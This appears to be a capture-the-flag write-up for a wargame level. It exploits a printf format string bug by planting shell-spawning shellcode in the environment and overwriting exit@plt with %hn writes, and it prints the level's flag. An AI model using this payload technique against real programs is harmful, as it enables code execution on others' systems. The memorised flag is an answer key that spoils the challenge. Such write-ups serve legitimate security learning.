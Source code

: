 # Level05
This program is just a fgets call on stdin, converts characters in the buffer from uppercase to lowercase and prints the buffer with printf.
Since the buffer is directly used in printf, we can use a format string exploit.

We search the index of the buffer in the stack:
```bash
for((i=0; i<200; i++)); do echo "Index $i" && ./level05 <<< "aaaa%$i\$x"; done | grep -B1 61616161
```

Which give us:
```
Index 10
aaaa61616161
```

We inject our shellcode in the environment:
```bash
export SHELLCODE=`python -c 'print("\x90" * 0xffff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

We can use this payload:
```bash
cat <(python -c 'print ("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%249x%10$hn" + "%65278x%11$hn")') - | ./level05
```

Explanation of the payload:
* "\xe0\x97\x04\x08" --> address of the high bytes of exit@plt
* "\xe2\x97\x04\x08" --> address of the low bytes of exit@plt
* "%249x%10$hn" --> write 0x0101 (0x101 = 0xf9(249) + 0x8) for the low address of our shellcode with index 10 ("\xe0\x97\x04\x08")
* "%65278x%11$hn" --> write 0xffff (0xffff = 0xfefe(65278) + 0x0101) for the high address of our shellcode with index 11 ("\xe2\x97\x04\x08")

Flag is **h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq**
